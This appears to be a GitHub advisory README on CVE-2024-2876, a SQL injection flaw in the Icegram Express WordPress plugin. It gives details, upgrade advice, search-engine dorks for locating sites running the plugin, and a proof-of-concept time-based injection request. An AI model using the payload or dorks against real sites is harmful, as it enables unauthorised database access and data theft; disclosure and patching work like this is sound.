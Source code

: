 # CVE-2024-2876 - SQL Injection Vulnerability in Email Subscribers by Icegram Express

## Overview

CVE-2024-2876 is a critical security vulnerability found in the "Email Subscribers by Icegram Express" plugin for WordPress. This vulnerability affects versions up to and including 5.7.14 and poses significant risks to over 90,000 websites.

### Vulnerability Details

- **CVE-ID**: CVE-2024-2876
- **CVSS Score**: 9.8 (Critical)
- **Affected Versions**: Up to 5.7.14
- **Patched Version**: 5.7.15 and above

### Description

The vulnerability is a SQL injection flaw that allows unauthenticated attackers to execute malicious SQL queries on the affected WordPress databases. By manipulating user inputs that are not properly sanitized, attackers can extract sensitive information such as usernames, email addresses, password hashes, and subscriber lists.

### Exploit Mechanism

The SQL injection occurs within the `run` function of the plugin's `IG_ES_Subscribers_Query` class, where inadequate input validation leads to unauthorized SQL code execution. This compromises the integrity and confidentiality of the data stored in the WordPress database.


## Dorks CVE-2024-2876

- FOFA : body="/wp-content/plugins/email-subscribers/"

- publicwww : "/wp-content/plugins/email-subscribers/"

# POC CVE-2024-2876

```python
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```
## Recommendations

1. **Immediate Update**: If you are using the "Email Subscribers by Icegram Express" plugin, upgrade to version 5.7.15 or later immediately to apply the security fix.
   
2. **Regular Audits**: Regularly review and update all WordPress plugins and themes to their latest versions to ensure security.
   
3. **Security Plugins**: Use reputable WordPress security plugins to enhance defenses against SQL injection and other cyber threats.
   
4. **Strong Password Policies**: Implement strong and unique passwords for all accounts related to your WordPress site to reduce unauthorized access risks.

## Impact of Non-Compliance

Failing to update the affected plugin can leave websites vulnerable to data breaches and unauthorized access. Given the widespread use of this plugin, immediate action is crucial to secure installations.

